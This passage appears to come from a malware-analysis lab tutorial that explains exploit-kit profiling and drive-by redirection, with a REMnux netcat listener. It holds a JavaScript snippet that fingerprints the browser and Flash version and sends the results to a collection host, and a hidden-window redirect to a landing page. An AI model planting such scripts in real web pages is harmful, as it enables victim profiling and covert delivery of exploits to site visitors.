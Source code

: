 On REMnux, hit `Ctrl + C` and then `nc -lp 80` again.

### Profiling and Probing

This technique is used by Exploit Kit landing pages to identify the user's browser, plug-ins, and environment while searching for potential vulnerabilities.  Responses from the victim's browser help determine the application or plug-in most likely to result in exploitation.  These specific exploit modules are then loaded to exploit the user's specific configuration. 

These scripts are usually heavily obfuscated and perform many different checks but here's a simple example of how JavaScript can be used to identify the browser and plugin versions: 

```javascript
var p = navigator.platform;
if (window.chrome){var c = true;}
if (navigator.plugins.named = "Shockwave Flash"){var s = true;}
var v = (navigator.plugins['Shockwave Flash'].description).split(' ')[2];
(new Image()).src = "//remnux/details.php?chrome=" + c + "?platform=" + p + "?shockwave=" + s + "?version=" + v;
```

As you click the **Profile and Probe** button, you should see an HTTP request in the REMnux console reporting the results of the code:

![](images/JavaScript%20and%20Browser-based%20Malware/image011.png)<br><br>

On REMnux, hit `Ctrl + C` and then `nc -lp 80` again.

### Redirecting the Browser

Drive-by Downloads and Watering Hole attacks (a more targeted version of a Drive-by Download) frequently use this technique to redirect visitors to an attacker-owned landing page which can profile the victim's system and/or deliver an exploit or malware.  When this page is opened in a new window, JavaScript can be used to change the dimensions and location of the window to partially or completely hide it from the user.  

The following code forces the browser to visit a page while attempting to hide it from the user:

```javascript
window.open(url, 's', 'width=5, height=2, left='+screen.width+', top='+screen.height+', resizable=yes, toolbar=no, location=no, directories=no, status=no, menubar=no, scrollbars=yes, resizable=no, copyhistory=no');
```

Click on the **Redirect Browser** button and watch as the `landing_page.html` is requested from the REMnux host:

![](images/JavaScript%20and%20Browser-based%20Malware/image012.png)<br><br>

Notice that the landing page was loaded but only slightly visible in the lower right-hand corner of the screen:

![](images/JavaScript%20and%20Browser-based%20Malware/image013.png)<br><br>

On REMnux, hit `Ctrl + C` and then `nc -lp 80` again.
